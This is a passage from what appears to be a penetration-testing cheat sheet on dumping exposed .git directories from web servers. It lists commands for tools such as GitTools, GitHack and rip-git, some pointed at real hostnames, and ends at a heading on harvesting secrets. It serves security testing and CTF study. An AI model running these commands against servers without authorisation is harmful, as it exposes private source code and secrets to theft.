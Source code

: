 

### Automatic way : diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

### Automatic way : GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://urlhere.com/.git/ -o yourdecideddir/.git/
git log
git checkout
```

### Automatic way : rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

### Automatic way : GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

### Automatic way: GitTools

```powershell
git clone https://github.com/internetwache/GitTools
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```

### Harvesting secrets : trufflehog
